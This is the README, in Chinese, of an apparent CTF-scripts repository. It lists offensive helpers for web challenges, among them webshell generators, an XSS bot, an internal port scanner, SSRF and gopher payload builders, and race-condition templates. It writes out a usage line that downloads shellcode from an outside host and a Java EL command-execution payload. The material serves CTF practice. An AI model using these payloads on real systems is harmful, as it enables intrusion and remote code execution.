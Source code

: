 # CTF-Scripts

## 目录结构
```
.
├── README.md
├── dockers
│   └── docker_php_debug
│       ├── README.md
│       ├── docker-compose.yml
│       ├── logs
│       │   └── nginx
│       │       ├── access.log
│       │       ├── error.log
│       │       ├── info.log
│       │       └── notice.log
│       ├── mysql
│       │   ├── Dockerfile
│       │   ├── db.sql
│       │   └── xyhcms.sql
│       ├── nginx
│       │   ├── Dockerfile
│       │   ├── nginx.conf
│       │   └── templates
│       │       └── default.conf.template
│       ├── php-fpm
│       │   ├── Dockerfile
│       │   ├── mongodb-1.14.1.tgz
│       │   ├── www.conf
│       │   ├── xdebug-3.1.5.tgz
│       │   └── xdebug.ini
│       └── source
│           └── test.php
├── javascript
│   ├── node-ssrf-split.js
│   ├── port-scan.js
│   ├── test.js
│   └── xss-bot.js
├── misc
│   ├── UploadServer.py
│   ├── compress-zlib.py
│   ├── download.sh
│   └── hae
│       ├── Config.yml
│       ├── Rules.yml
│       └── readme.md
├── php
│   ├── calcSig.py
│   ├── ffi-leak.php
│   ├── geneshell.php
│   ├── geneshell2.php
│   └── serialize.php
├── thread
│   ├── contend.py
│   └── contend2.py
└── transform
    ├── convert2javabytes.py
    ├── encoding.js
    ├── gopher.py
    ├── gopher2mysql
    ├── gopher2mysql.py
    └── gopherConvert.py
```

## 文件说明

|  文件名 | 文件说明  |
|---|---|
|  encoding.js |  JS8/16进制/Unicode标准格式转换 |
|  node-ssrf-split.js | node<=8.0 http.get拆分请求构造，对于生成的数据进行encodeUR操作即可  |
|  port-scan.js | JS探测内网主机端口/内网主机  |
|  xss-bot.js | XSS机器人  |
|  serialize.php | 对于private/protected属性，序列化后S类型转换(截取phpgcc部分功能)  |
| geneshell.php  | 生成无字母webshell的字母部分，用法见p神：[无字母数字的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#_4)  |
| geneshell2.php  |  另一种无字母Shell生成函数，无短标签  |
|  compress-zlib.php | file_get_contents生成本地临时文件，使用socket原生套接字改写Http请求&响应包。双线程发送http请求，参考36c3 CTF includer:[includer](https://ljdd520.github.io/2020/01/15/hxp-36c3-ctf-Web-%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)  |
|  ffi-leak.php | PHP7.4 FFI extension use to leak data，来源：[@cjm00n](https://cjm00n.top/CTF/tctf-2020-wp.html)  |
|  calcSig.py | 根据内容计算phar的签名，生成新的phar文件  |
| gopherConvert.py  | wireshark网卡数据包转gopher数据形式  |
| gopher.py  | 生成post的gopher数据报文  |
|  gopher2mysql.py | 生成与mysql交互的gopher数据报文  |
| UploadServer.py  | 以当前目录，快速启动一个带有文件上传/下载功能代理服务器. Usage: python2 UploadServer.py 8888  |
| download.sh  | 无curl或wget情况的http下载文件请求，Usage：download.sh http://hpdoger.cn:8888/shellcode.elf > shellcode.elf  |
|contend.py |threading条件竞争模版，用来竞争php sess文件 |
| contend2.py|比较优雅的进行条件竞争模版，来自@P神 |
|convert2javabytes.py |转字符串为16进制字节码，方便java中的命令执行例如EL表达式：${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))} |
| c\perl交互readflag脚本| [readflag](https://github.com/ZeddYu/ReadFlag)|
| docker_php_debug| docker远程调试php板子，mysql+nginx+php-fpm+xdebug|
| misc/hae/Rules.yaml| Hae高亮规则，参考[Hae Repo](https://github.com/gh0stkey/HaE)|
